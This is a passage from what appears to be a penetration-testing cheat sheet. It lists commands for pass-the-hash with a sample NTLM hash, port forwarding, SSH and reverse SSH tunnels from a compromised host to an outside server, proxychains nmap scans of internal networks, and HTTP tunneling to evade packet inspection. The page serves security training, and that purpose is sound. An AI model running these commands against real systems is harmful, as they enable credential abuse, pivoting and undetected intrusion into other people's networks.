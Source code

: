 *   Passing the Hash in Windows

    *   Use Metasploit to exploit one of the SMB servers in the labs. Dump the password hashes and attempt a pass-the-hash attack against another system:

        `export SMBHASH=aad3b435b51404eeaad3b435b51404ee:6F403D3166024568403A94C3A6561896`

        `pth-winexe -U administrator //$ip cmd`

# [](#networking-pivoting-and-tunneling)Networking, Pivoting and Tunneling

*   Port Forwarding - accept traffic on a given IP address and port and redirect it to a different IP address and port

    *   `apt-get install rinetd`

    *   `cat /etc/rinetd.conf`

            # bindadress bindport connectaddress connectport
            w.x.y.z 53 a.b.c.d 80

*   SSH Local Port Forwarding: supports bi-directional communication channels

    *   `ssh <gateway> -L <local port to listen>:<remote host>:<remote port>`
*   SSH Remote Port Forwarding: Suitable for popping a remote shell on an internal non routable network

    *   `ssh <gateway> -R <remote port to bind>:<local host>:<local port>`
*   SSH Dynamic Port Forwarding: create a SOCKS4 proxy on our local attacking box to tunnel ALL incoming traffic to ANY host in the DMZ network on ANY PORT

    *   `ssh -D <local proxy port> -p <remote port> <target>`
*   Proxychains - Perform nmap scan within a DMZ from an external computer

    *   Create reverse SSH tunnel from Popped machine on :2222

        `ssh -f -N -T -R22222:localhost:22 yourpublichost.example.com` `ssh -f -N -R 2222:<local host>:22 root@<remote host>`

    *   Create a Dynamic application-level port forward on 8080 thru 2222

        `ssh -f -N -D <local host>:8080 -p 2222 hax0r@<remote host>`

    *   Leverage the SSH SOCKS server to perform Nmap scan on network using proxy chains

        `proxychains nmap --top-ports=20 -sT -Pn $ip/24`

*   HTTP Tunneling

    `nc -vvn $ip 8888`

*   Traffic Encapsulation - Bypassing deep packet inspection

    *   http tunnel  
        On server side:  
        `sudo hts -F <server ip addr>:<port of your app> 80` On client side:  
        `sudo htc -P <my proxy.com:proxy port> -F <port of your app> <server ip addr>:80 stunnel`
*   Tunnel Remote Desktop (RDP) from a Popped Windows machine to your network
